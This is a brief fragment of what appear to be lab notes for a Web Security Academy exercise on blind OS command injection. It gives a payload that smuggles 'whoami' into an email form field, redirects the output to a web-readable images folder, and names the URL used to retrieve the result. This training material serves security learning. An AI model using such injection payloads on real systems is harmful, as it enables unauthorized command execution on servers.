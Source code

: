 - Change the sent email value to `email=a||whoami+>+/var/www/images/output.txt||`
- Endpoint for retrieval : `https://0a5e00a8030c338d81c76ba500e50084.web-security-academy.net/image?filename=output.txt`